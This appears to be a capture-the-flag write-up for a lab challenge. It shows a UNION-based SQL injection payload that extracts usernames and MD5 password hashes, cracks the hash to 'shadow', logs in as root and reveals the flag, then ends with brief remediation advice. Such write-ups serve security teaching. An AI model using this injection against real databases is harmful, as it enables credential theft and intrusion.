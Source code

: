 # <span style="text-decoration: underline"> DB_DEFAULT </span>

##### Tags : `SQL Injection`
##### Server ip : `192.168.1.23 `
____

# <span style="text-decoration: underline">problem</span>

From the [member](/member.md) challenge we have found that there is a table called `db_default` of the database `Member_Brute_Force` that contains the following columns

- id
- username
- password

Let's try to see if we can findout anything interesting in that database!

# <span style="text-decoration: underline">Solution</span>

## Extract more contents from the table `db_default`

During the [member](/member.md) challenge we have found out what `table` contains what `column` name

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|


Let's try to get the contents of this table

!> Remember that if we try to access a table that is not present in the default database but in some other database then we have to use the following syntax `database.table`


```sql
1 AND 1=2 UNION SELECT username, CONCAT(CHAR(124), id, CHAR(124), username, CHAR(124), password, CHAR(124)) AS name FROM Member_Brute_Force.db_default --
```

We get the following informations

|Id|Username|Password|
|--|--|--|
|1|root|3bf1114a986ba87ed28fc1b5884fc2f8|
|2|admin|3bf1114a986ba87ed28fc1b5884fc2f8|

We can see the that we have 2 users contining `md5` hash as their password. We allready know the password for the user **admin** thanks to the [brutforce](/brutforce.md) challenge which is `shadow`. We can easily verify that the `md5` hash of the word `shadow` is `3bf1114a986ba87ed28fc1b5884fc2f8` using the following command on **Linux** `echo -n "shadow" | md5sum` and and **MacOs**  `echo -n "shadow" | md5`

And we can see that the both user password hash is "3bf1114a986ba87ed28fc1b5884fc2f8" thus `shadow` being the password for both of them.

And when we try to login using the following credentials 
|username|password|
|--|--|
|root|shadow|

We get the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.

> This is the same flag as for the `brutforce` challenge where we logged is as the user **admin** using the password `shadow`

# How to avoid the problem

Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
